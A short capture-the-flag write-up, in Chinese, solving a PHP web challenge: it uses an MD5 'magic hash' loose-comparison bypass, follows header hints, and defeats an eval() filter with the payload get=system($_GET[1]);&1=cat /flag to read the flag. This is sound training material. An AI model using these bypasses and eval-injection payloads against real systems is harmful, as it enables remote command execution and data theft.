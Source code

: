 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031840503.png)

## webdog1__start

右键注释

```html
<!--
if (isset($_GET['web']))
{
    $first=$_GET['web'];
    if ($first==md5($first)) 
     
-->
```

找到一个加密前后都是 0e 的字符串就行了

```
md5(0e215962017) = 0e291242476940776845150308577824
```

之后跳转到 start.php, response header 中有 `hint: why not go to f14g.php first`

最后再根据 hint 跳转到 F1l1l1l1l1lag.php

```php

<?php
error_reporting(0);
highlight_file(__FILE__);

if (isset($_GET['get'])){
    $get=$_GET['get'];
    if(!strstr($get," ")){
        $get = str_ireplace("flag", " ", $get);
        if (strlen($get)>18){
            die("This is too long.");
            }
            else{
                eval($get);
          } 
    }else {
        die("nonono"); 
    }
} 
?>
```

```
http://1.14.71.254:28275/F1l1l1l1l1lag.php?get=system($_GET[1]);&1=cat /flag
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210032054842.png)
